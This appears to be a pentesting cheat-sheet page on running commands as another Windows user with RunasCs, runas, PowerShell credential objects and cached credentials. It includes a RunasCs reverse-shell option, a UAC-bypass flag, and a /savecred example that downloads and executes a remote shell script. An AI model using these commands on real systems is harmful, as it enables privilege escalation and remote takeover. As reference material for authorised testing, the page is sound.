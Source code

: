 ```yaml
---
title: "Runas"
date: 2024-7-10
tags: ["Powershell", "Credential Object", "Windows", "Runas", "UAC"]
---
```


### RunasCS

```console
.\RunasCs.exe '<USER>' '<PASSWORD>' "<CMD>" -r <LOCAL_IP>:<LOCAL_PORT>
```

```console
.\RunasCs.exe '<USER>' '<PASSWORD>' "<CMD>" -l <LOGON_TYPE>
```

```console
# Or
.\RunasCs.exe '<USER>' '<PASSWORD>' --bypass-uac "<CMD>" -l <LOGON_TYPE>
```

<br>

```
LOGON TYPE
---------------------
2  Interactive
3  Network
4  Batch
5  Service
7  Unlock
8  NetworkCleartext
9  NewCredentials
10 RemoteInteractive
11 CachedInteractive
```

<small>*Ref: [RunasCS](https://github.com/antonioCoco/RunasCs)*</small>

### Runas (With Password)

```console
runas /user:'<USER>' "<CMD>"
```

```console {class="sample-code"}
runas /user:'admin' "powershell"
```

### Runas (With Cred Object)

#### 1. Create Credential Object

{{< tab set1 tab1 >}}Method 1{{< /tab >}}
{{< tab set1 tab2 >}}Method 2{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = '<PASSWORD>'
```

```console
$secstr = New-Object -TypeName System.Security.SecureString
```

```console
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

{{< /tabcontent >}}

#### 2. Run Command

{{< tab set2 tab1 >}}Invoke-Command{{< /tab >}}
{{< tab set2 tab2 >}}PSSession{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Set computer to 'localhost' if running locally
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME>
```

```console {class="sample-code"}
Invoke-Command -ScriptBlock { powershell } -Credential $cred -Computer localhost
```

```console
# If error, try
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -auth credssp
```

```console
# Invoke command with config
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -ConfigurationName <CONFIG_NAME>
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
# Set computer to '.' if running locally
new-pssession -computername <COMPUTER_NAME> -credential $cred
```

```console {class="sample-code"}
new-pssession -computername . -credential $cred
```

```console
# Switch to new session
enter-pssession <SESSION_ID>
```

{{< /tabcontent >}}

### Runas (With Cached Creds)

#### 1. Check Cached Creds

```console
cmdkey /list
```

#### 2. Run Command

```console
runas /user:<DOMAIN>\<USER> /savecred "<CMD>"
```

```console {class="sample-code"}
# e.g. Upload and run a shell
runas /user:<DOMAIN>\<USER> /savecred "powershell iex(new-object net.webclient).downloadstring('http://<LOCAL_IP>/shell.ps1')"
```
